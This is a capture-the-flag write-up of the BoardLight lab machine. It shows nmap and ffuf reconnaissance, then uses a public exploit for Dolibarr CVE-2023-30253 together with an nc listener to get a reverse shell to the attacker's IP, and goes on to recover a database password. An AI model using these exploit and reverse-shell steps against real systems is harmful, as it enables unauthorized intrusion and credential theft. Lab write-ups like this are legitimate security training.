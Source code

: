 # BoardLight

**Date:** 14, jun, 2024

**Author:** H3cktor



### Recon

**Using NMAP to make Recon**&#x20;

```bash
nmap -sC -sV 10.10.11.11
```

\-sV => Attempts to determine the version of the service running on port

\-sC  => Scan with default NSE scripts. Considered useful for discovery and safe

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

After the **nmap** scan we can see an apache server listening on port 80:

Lets add this to our host file:

```bash
sudo nano /etc/hosts
```

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



Lets first try to do a directory search to try to find any hidden files/**directory's**. I will use **gobuster**  to do this:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Make subdomain enumeration Using **FFUF**

```bash
ffuf -H "Host: FUZZ.board.htb"  -u http://10.10.11.11/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 6243

```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

See i found the Subdomain crm.10.10.11.11

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



**I Found the crm  panel**

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Ok Now Found the Dolibarr version 17.0.0 and i Search in Google to get any CVE&#x20;

i found [Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

Reverse Shell POC exploit for **`Dolibarr <= 17.0.0 (CVE-2023-30253)`**, PHP Code Injection

```bash
sudo python3 exploit.py   http://crm.board.htb admin admin  <ip Your tun0> 9000

```



listen revers shell => Must run listening in First

```
nc -nvlp 9000
```

\
First I provided a listener and then executed the exploit.py file. Then I provided the credentials as well as my attacker ip and the listening port. After executing, I successfully got a reverse shell

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



B0000000M!

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

I cat Found in pass or Cardantional&#x20;

put i see the user name larissa

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I found the main database password in the file.

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>User Own</p></figcaption></figure>

